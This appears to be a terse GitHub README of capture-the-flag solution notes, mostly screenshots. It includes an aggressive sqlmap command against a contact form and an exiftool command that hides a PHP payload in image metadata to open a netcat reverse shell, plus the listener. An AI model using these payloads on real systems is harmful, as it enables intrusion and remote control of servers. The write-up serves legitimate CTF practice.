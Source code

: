 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/93f21a62-b8f3-4bbb-86fb-2c044a001199)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72bf2211-6966-45ac-b446-6ce76dea7192)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f896c2bc-b5e9-4103-9d85-0495b3a8fb0f)
```
sqlmap -u "http://62.173.140.174:18300/contact.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="name=as&email=d%40d.ru&message=a"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0493d916-2315-4600-94e5-02462f636eb0)
```
exiftool -DocumentName="<?php system('nc IP 1234 -e /bin/bash'); ?>" file.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/222fd2ea-78b4-40b5-aa09-d368967f1602)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7ced86ab-f32f-4b13-8900-ac81d5a976ef)
```
nc -lnvp 1234
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8dfb044-bbf5-4b52-8156-52085959b4d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7855fbb-c57d-48f5-8e90-f2ea72b76f8b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d5622e7-4060-4da7-af10-a7dc7dc63ef9)

... revers ing ...

... stega ...

https://fotoforensics.com/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b6bb709e-5498-4daa-9c4c-c291c30acd00)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3db90e76-6baa-4f4f-9346-d90be73d92b3)



